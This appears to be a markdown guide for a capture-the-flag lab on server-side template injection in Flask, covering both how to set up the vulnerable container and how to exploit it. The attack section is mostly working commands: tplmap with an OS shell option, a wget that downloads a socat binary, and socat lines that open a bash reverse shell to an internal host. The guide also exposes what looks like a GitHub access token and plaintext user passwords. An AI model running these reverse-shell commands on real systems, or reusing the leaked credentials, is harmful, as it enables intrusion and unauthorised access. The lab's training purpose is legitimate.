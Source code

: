 Server Side Template Injection RCE Vulnerability.

How to?

```sudo su```

download docker

```git clone git@github.lab.morganstanley.com:mahada/VulImages.git```

Username: Your git username

Password: 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

```cd Vulimages```

```cd flask```

```cd ssti```

```docker-compose up -d```

```docker ps```

copy container id

```docker exec -it <container id> /bin/bash```
  
  
```useradd -c 'Admin User' -d /home/security -m -s /bin/bash security```
```passwd security (Set password)``` - password is security

  create flag in security user: /home/security
  
  ```echo "cyberclubflag:{Wd0kOF3OUMqePq3PKTxUI8JnLqUc3AuX}" > cyberclubflag.txt
  echo "cyberclubflag:{Congratulations_You_got_a_2nd_Flag}" > cyberclubflag.txt```

  
Disable below commands for user 'security:
  
Cat/more/tail/less/head/vim/git/wget/locate/find/apt/scp/pip/nl/ip/hostname/rmdir/nmcli/dpkg
  
```which mkdir```
```/bin/mkdir```
```/bin/setfacl -m u:john:--- /bin/mkdir```




Download socat for them:(Socat is used to take reverse shell).
```wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat; chmod +x socat```

```socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:172.16.134.232:4444```

set only read permissio to everyone:
```chmod a=r cyberclubflag.txt```

set permission to only owner
```chmod -R 7000 folder_name```

```apt install nmap```

Create second user champion: password is : 
Create second flag:
```echo "cyberclubflag:{Congratulations_You_got_a_2nd_Flag}" > cyberclubflag.txt```
  
  
  
  
How to hack?

Automated tools tplmap.py

```
git clone https://github.com/epinna/tplmap.git
cd tplmap
$./tplmap.py --os-shell -u 'http://172.16.137.98:8000/?name=mahadev'
```
Open second command prompt and use nc to listen to the revserse shell connection.

```
nc -lvp 4444

```
for morgan stanley ubuntu instance if you face DNS resolution error while executing nc -lvp commnad then change nameserver as follows.

```
nano /etc/resolv.conf
nameserver 8.8.8.8
```

Now execute the below command to initiate the reverse shell using socat tool.(socat tool is present app directory).
```
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:172.16.159.93:4444

```
```  
 
  
  
